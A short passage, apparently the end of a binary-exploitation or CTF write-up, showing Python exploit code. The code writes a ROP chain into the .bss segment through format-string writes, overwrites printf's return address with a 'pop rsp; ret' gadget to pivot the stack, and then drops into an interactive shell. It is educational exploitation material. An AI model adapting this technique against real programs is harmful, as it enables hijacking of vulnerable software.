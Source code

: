 ```python
#############################################
#### write ropchain into .bss segment #######
#############################################

for idx, c in enumerate(rop.build()):
    f.write(target_address+(8*idx), c)


######## redirect code execution ##################
pop_rsp     = rop.find_gadget(['pop rsp', 'ret'])[0]



f.write(rbp_addr-0x4f8, pop_rsp)        # ---> printf return address
f.write(rbp_addr-0x4f0, target_address) # ---> printf return address+8
#f.write(target_address, 0xdeadbabe)

f.execute_writes()

io.interactive()

```

**The Result:**

![](images/77e04bffec8a3191a2572dff4812037f.png)


## References
